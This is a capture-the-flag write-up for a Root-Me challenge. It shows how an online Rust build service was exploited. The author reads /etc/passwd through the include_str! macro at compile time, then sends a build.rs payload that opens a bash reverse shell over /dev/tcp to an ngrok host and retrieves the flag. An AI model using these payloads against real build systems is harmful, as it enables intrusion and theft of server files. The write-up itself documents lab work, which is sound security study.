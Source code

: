 # Challenge Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

In this challenge a Rust compilator was available online; it was possible able to send raw rust code to the online service which was returning a binary containing our Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : 

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful :
````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

After that I thought I would have been to load directly but the name of the file flag wasn't the one provided in source files. Considering that I didn't managed to guess actual name of the flag file I decided to deploy a reverse shell using the following JSON payload (the revshell payload is available under revshell.rs in this repo) :

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"0.tcp.eu.ngrok.io\"; let port = \"13457\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag :

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
